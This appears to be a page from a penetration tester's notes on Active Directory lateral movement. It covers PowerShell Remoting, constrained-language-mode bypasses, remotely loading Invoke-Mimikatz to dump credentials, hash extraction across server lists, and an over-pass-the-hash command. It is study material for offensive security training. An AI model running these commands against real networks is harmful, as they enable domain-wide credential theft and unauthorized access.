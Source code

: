 ```yaml
---
title: Lateral Movement
category: Active Directory
order: 2
---
```


# PowerShell Remoting

Once a machine is compromised, we need to jump to others in order to find more valuable targets. For that task we can use `PowerShell Remoting` which is increasingly used in enterprises and enabled by default on Server 2012 onwards. PowerShell Remoting uses WinRM protocol, so you can check `evil-winrm` tool. Admin privileges on the target machineis needed.

> **Note**: Maybe you need to enable remoting `Enable-PSRemoting` on a Desktop windows machine and Admin privs are required.

You can get a elevated shell (`NT AUTHORITY\SYSTEM`) on the remote server if the credentials of the user administrator are used to authenticate (default setting).

## Creating a Session

There are two types of PowerShell Remoting:

* **One-to-One**: It is interactively login to another machine. Create a new session on the target machine so runs in a new process (wsmprovhost). 

```powershell
Enter-PSSession -ComputerName machine01.corp.local
```
We can also first create the session and append to it later.

```powershell
$sess = New-PSSession -ComputerName machine01.corp.local
Enter-PSSession -Session $sess
```
> **Note**: We can put a session in background if the session is stored in a variable. Very useful.


* **One-to-Many**: It is also known as Fan-out remoting. It is a non-interactive shell but we can execute commands parallely. Is useful to run commmands and scripts on multiple remote computers, in disconnected sessions and as a background job.

```powershell
Invoke-Command -ComputerName machine01.corp.local -ScriptBlock {whoami;hostname}
Invoke-Command -ComputerName (Get-Content .\servers.txt)
Invoke-Command -ComputerName machine01.corp.local -FilePath .\file.ps1
```
> **Note**: One of the best things in PowerShell to do PassTheHash, using credentials and executing commands on multiple remote computers.

> **RedTeam Note**: Since admin privs are needed is a useful tool to check if the user has admin privs on the target machine.

### PowerShell Constrained Language Mode ByPass

By default PowerShell Remote run the script in a `ConstrainedLanguage` mode so we can not run some cmdlets which are considered to be unsafe. To check the type of language run the following command:

```powershell
$ExecutionContext.SessionState.LanguageMode
```
Enabling constrained language mode, that dows not allow powershell execute complex ataccks such as mimikatz.

```powershell
[Environment]::SetEnvironmentVariable(‘__PSLockdownPolicy‘, ‘4’, ‘Machine‘)
```
However, if you have access to the system and enough privileges to change environment variables, you can bypass it by removing the variable `__PSLockdownPolicy` and re-spawning another PowerShell instance.

#### PowerShell Downgrade

If PowerShell 2.0 is installed we can bypass it via spawning a PowerShell 2.0 instance.

```powershell
powershell -version 2
```
[https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass](https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass)

## Execute locally loaded funcitons on the remote machine

We can execute locally loaded function on the remote machine.

```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content .\servers.txt)
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ArgumentList "-List hello" -ComputerName (Get-Content .\servers.txt)
```
## Load a script remotely

we can load a script remotely.

```powershell
Invoke-Command -FilePath .\hello.ps1 -Session $sess
Enter-PSSession -Session $sess

[machine01.corp.local]: PS C:\> hello
Hello World!
```
## Execute "Stateful" commands

We can execute "Stateful" commands.

```powershell
$sess = New-PSSession -ComputerName server1
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

# Dump credentials

Once we have administrator privileges on the target machine we can dump credentials with `Invoke-Mimikatz`. See this section:

[https://mvc1009.github.io/hackingnotes/post-exploitation/get-credentials/](/hackingnotes/post-exploitation/get-credentials/).

To avoid save mimikatz on disk we need to load remotely.

```powershell
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Invoke-Command -Session $sess -ScriptBlock {Invoke-Mimikatz -DumpCreds}
```
Or we can execute locally loaded functions.

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Command -Session $sess -ScriptBlock {function:Invoke-Mimikatz -DumpCreds}
```

# Over-Pass-the-Hash

Abusing kerberos functionality we can execute commands as another user by only knowing the NTLM hash.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /usr:Administrator /domain:corp.local /ntlm:<ntlmhash> /run:powershell.exe"'
```